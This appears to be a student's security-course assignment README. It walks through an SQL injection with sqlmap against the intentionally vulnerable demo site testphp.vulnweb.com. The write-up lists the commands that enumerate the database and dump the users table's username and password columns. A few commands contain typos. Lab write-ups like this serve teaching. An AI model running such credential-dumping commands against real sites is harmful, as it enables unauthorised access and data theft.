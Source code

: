 
# COMP421-InfoSec Assignment 1
# Hamza Asaad 231450993

## Pre-Requisite Steps Taken 📟
- Installation of ```sqlmap``` on Mac Terminal using the command ```brew install sqlmap```.
- Changed MacOS terminal from ```zsh``` to ```bash``` due to issues with ```sqlmap``` on zsh.

Note: Screenshots attached bottom.

## Steps Performed for SQL Injection Attack 🪜
1. Open website ```vulnweb.com``` and proceed to Acuart sub domain ```http://vulnweb.com```.
2. To proceed we must find a link which makes a query paramter request to the SQL database on the backend as such we can browse to the 'artist' tab and click on one of the three links leading us to the page with the link ```http://testphp.vulnweb.com/artists.php?artist=1``` which does indeed contain a query param.
3. We can confirm our request to a SQL DB by appending a quotation at the end and seeing the result ```http://testphp.vulnweb.com/artists.php?artist=1'``` .
4. Now that we have our link and confirmed it uses a SQL based DB we can perform the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --dbs``` to find its databases.
5. Now we can further find tables within these found databases using the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables```.
6. We will find 8 tables and focus our attention to the ```users``` table and further use the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart -T users columns``` and see the columns within the ```user``` table.
7. Now we will observe 8 columns and target the ```uname``` and ```pass``` column and dump their respective data with the following commands:
   - ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname --dump``` 
   - ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass --dump```
8. We will find both commands result with us finding ```test``` as both the username and password for the admin panel of the website.

With this we have successfully carried out our SQL Injection Attack resulting in us finding the ```username``` and  ```password``` for the admin panel of the website. Observing the sidebar on the website we can click the ```Sign Up``` button use the username and password we have discovered to Log In.

## List Of Commands Executed 📝
1. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --dbs```
2. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables```
3. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users --columns``` 
4. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname --dump```
5.  ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass --dump```

# Screenshots 📸

## Command #1
<img width="815" alt="Screen Shot 2022-10-28 at 8 03 52 PM" src="https://user-images.githubusercontent.com/66818162/198666738-7d5b9820-f761-44c3-86be-7ad9b527bb95.png">

